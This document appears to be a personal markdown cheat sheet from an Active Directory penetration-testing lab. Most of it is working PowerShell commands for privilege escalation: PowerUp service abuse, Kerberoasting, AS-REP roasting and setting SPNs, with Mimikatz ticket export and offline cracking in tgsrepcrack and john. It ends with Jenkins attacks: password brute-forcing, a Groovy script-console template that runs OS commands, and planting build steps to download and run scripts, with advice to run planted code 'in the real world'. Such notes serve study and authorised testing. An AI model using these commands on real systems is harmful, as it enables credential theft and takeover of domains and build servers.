

# Privilege Escalation
> Mainly focus on the Domain Privilege Escalation
Table of Content
1. [test](#test)


## Local Privilege Escalation
> See [Window Privilege Escalation](#test)

All check
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

Service abuse
```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx'
```

## Domain Privilege Escalation
### Kerberoasting
The offline cracking technique which crack the hashes of service accounts via TGS --> then use it to create the silver ticket

1. Find user accounts used as Service accounts -> Read the service principal name, for this exmaple, we use **MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local**
```powershell
#PowerView
Get-NetUser -SPN

#ActiveDirectory module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```


2. Request a TGS
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local" 
```

3. Check if the TGS has been granted
```powershell
klist
```

4. Extract
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
5. Crack the Service account password
```powershell
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~dcorpmgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

### AS-REP Roasting
If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.

>With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well

1. Find users which Kerberos preauth is disabled
```powershell
# Using PowerView (dev):
 . .\PowerView_dev.ps1
Get-DomainUser -PreauthNotRequired -Verbose

# Using ActiveDirectory module:
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
Or you could disable them
```powershell
#Let's enumerate the permissions for RDPUsers on ACLs using PowerView(dev):
Invoke-ACLScanner -ResolveGUIDs |?{$_.IdentityReferenceName -match "RDPUsers"}

# Disable
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} –Verbose
```

2. Request encrypted AS-REP for offline brute-force.
```powershell
. .\ASREPRoast-master\ASREPRoast-master\ASREPRoast.ps1
# specific user
Get-ASREPHash -UserName VPN1user -Verbose

# To enumerate all users with Kerberos preauth disabled and request a hash
Invoke-ASREPRoast -Verbose
```

3. Cracking the hashes
Using john.
```powershell
./john vpn1user.txt --wordlist=wordlist.txt
```


### Kerberoasting - Set SPN
With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain).

We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".

1. find the interesting user
```powershell
# Check who we can control
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# check if they already have SPN (Powerview (dev))
Get-DomainUser -Identity support134user | select serviceprincipalname

# Using ActiveDirectory module:
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```

2. Set a SPN for the user (must be unique for the domain)
```powershell
#using Powerview (dev) - Ignore error
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='ops/whatever1'}

#Using ActiveDirectory module:
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='ops/whatever1'}
```

3. Request a ticket (same as simple kerberoast)
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
```

3. Check if the TGS has been granted
```powershell
klist
```
4. Extract
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
5. Crack the Service account password
```powershell
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@ops~whatever1-dollarcorp.moneycorp.LOCAL.kirbi
```
Alternatively, we can use PowerView_dev for requesting a hash:
```powershell
Get-DomainUser -Identity supportXuser | Get-DomainSPNTicket | select -ExpandProperty Hash
```


# Jenkin --> move to CVE catagory
1. jenkin default allow us to read user and computer
2. jenkin dosn't have rate limit which we can burte force if we know the username (form author perspective try guessing password as username or reversed username)
3. with administrator privileges we can run groovy script on the system

>If you have Admin access (default installation before 2.x), go to http://<IP>/script
In the script console, Groovy scripts could be
```Groovy
executed.def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
5. with normal user, we may can create configuration for the project and we can run OS command via the configuration. (checking permission on burp intruder appending the /configure to the project file) - you need to check every project

>If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter: **powershell –c**

>Again, you could download and execute scripts, run encoded scripts and more.

>In the real world, make our configuration code run before the already-have-code.